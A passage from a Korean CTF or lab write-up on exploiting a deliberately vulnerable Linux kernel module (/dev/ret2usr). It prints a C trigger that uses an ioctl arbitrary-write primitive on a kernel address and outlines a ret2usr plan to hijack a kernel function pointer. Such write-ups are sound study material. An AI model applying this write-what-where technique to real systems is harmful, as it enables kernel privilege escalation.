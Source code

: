 ```c
module_init(load);
module_exit(unload);

MODULE_LICENSE("GPL");
```

`_init_load()` 함수를 통해 `/dev/ret2usr` 디바이스를 등록하며, `device_ioctl()` 함수 선언을 통해 `ioctl()`[^ioctl]호출시 `arbitrary_write()` 함수와 `partial_write()`함수를 사용할 수 있다.

---

# Arbitary Address Write Exploit
아래와 같은 AAW trigger template이 제공되어 있다.

**trigger1.c**
```c
/* arbitrary write primitive (write-what-where) trigger */
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include "drv.h"

int main() {
	int fd;
	struct drv_req req;

	fd = open(DEVICE_PATH, O_RDONLY);

	if (fd == -1) {
		perror("open");
		return -1;
	}

	/* set the address to overwrite and the new value */
	req.address = 0xffffffff81000000;
	req.value = 0xdeadbeef;

	ioctl(fd, IOCTL_FULL_WRITE, &req);
}
```

`ioctl` 호출시 `cmd` 필드가 `IOCTL_FULL_WRITE`이라면, 임의 주소 쓰기(`Arbitary Address Write`, `AAW`)가 가능하다.

우선 Exploit 코드를 작성하기 전, 메모리의 어느 공간(`Where`)에, 어떤 값(`What`)을 쓸 것인지 생각해야 한다.
`IOCTL_FULL_WRITE` 옵션을 통해 커널 영역의 함수 포인터를 유저 영역에서 우리가 선언한 함수의 주소로 바꿔치기하여 `ret2usr` 공격을 성사시킬 수 있을 것이기 때문에 `What`은 우리가 작성한 `Exploit Payload` 함수의 주소가 된다.

그렇다면 `Where`, 어디에 페이로드 함수의 주소를 써야 할까?
이번에는 [Blazeme](https://nonetype.github.io/2019-09-16/BlazeCTF2018-blazeme-write-up) 문제를 풀다가 발견한 [방법](https://www.lazenca.net/pages/viewpage.action?pageId=25624658#id-04.Write-what-where(ArbitraryMemoryOverwrite)(feat.ret2usr)-ptmx)을 사용해 보려고 한다.


[^rings]: [PRIVILEGE LEVEL(RING 0, RING 3)] <https://elfmfl.tistory.com/2>
[^ioctl]: [ioctl 정리] <http://blog.naver.com/PostView.nhn?blogId=jyh3211&logNo=40131890810>
[^find]: [linux manpage] <http://man7.org/linux/man-pages/man1/find.1.html>
[^desc_ptr]: <https://github.com/torvalds/linux/blob/da05b5ea12c1e50b2988a63470d6b69434796f8b/arch/x86/kernel/idt.c#L171>
[^idt_table]: <https://github.com/torvalds/linux/blob/da05b5ea12c1e50b2988a63470d6b69434796f8b/arch/x86/include/asm/desc.h#L44>
[^gate_desc]: <https://github.com/torvalds/linux/blob/da05b5ea12c1e50b2988a63470d6b69434796f8b/arch/x86/include/asm/desc_defs.h#L88>
[^desc_struct]: <https://github.com/torvalds/linux/blob/da05b5ea12c1e50b2988a63470d6b69434796f8b/arch/x86/include/asm/desc_defs.h#L16>